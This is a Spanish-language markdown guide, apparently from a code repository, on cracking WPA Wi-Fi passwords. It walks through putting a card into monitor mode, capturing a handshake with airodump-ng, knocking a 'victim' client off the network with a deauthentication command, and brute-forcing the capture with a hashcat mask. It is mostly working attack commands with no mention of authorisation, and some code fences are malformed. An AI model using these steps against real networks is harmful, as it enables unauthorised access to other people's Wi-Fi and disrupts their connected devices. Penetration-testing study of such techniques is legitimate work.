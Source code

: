 # Wireless Cracking

## Cracking WPA por fuerza bruta

### Preparar el entorno
Lo primero que necesitamos es una tarjeta de red compatible con el modo monitor e inyección de paquetes. Se pueden consultar los modelos compatibles aqui:  [Compatible Adapters](https://deviwiki.com/wiki/List_of_Wireless_Adapters_That_Support_Monitor_Mode_and_Packet_Injection)  

Programas necesarios: Suite Aircrack, hashcat.


### Escaneo

Matamos los procesos que puedan dar conflicto  
```
airmon-ng check kill
```

Iniciamos escaneo
´´´
airmon-ng start <interfaz>
```
Fijamos objetivo, anotando su MAC y la MAC del cliente víctima

### Captura Handshake

´´´
airodump-ng -w <fichero.cap> -c <canal(opcional)> --bssid <MAC AP> <interfaz>
´´´

### Deautenticación

```
aireplay -a <MAC AP> -c <MAC CLIENTE VICTIMA> -0 1 -D --ignore-negative-one <interfaz>
```

Llegados a este punto, en la terminal donde tenemos corriendo el airodump, debemos ver el handshake capturado.  

### Crackeo con hashcat

Primero debemos convertir la captura.cap a un formato que hashcat entienda, para ello subimos el fichero a: [Cap2hashcat](https://hashcat.net/cap2hashcat/) y descargamos el fichero.  

En **Hashcat**  
```
hashcat -m 22000 hash.hc22000 -a3 -1 ?l?u?d ?1?1?1?1?1?1?1?1
```

Dónde:  
* ?l son letras lowercase
* ?u son letras uppercase
* ?d son numeros
* ?a serían numeros, letras mayusculas, minusculas y caracteres especiales
* ?h serian letras lower + numeros
* ?H serian letras upper + numeros

En este caso creamos una máscara personalizada con **-1** seguido de lo que queremos incluir, y al final ponemos tantos ?1 como caracteres queramos que compruebe, en este caso 8.
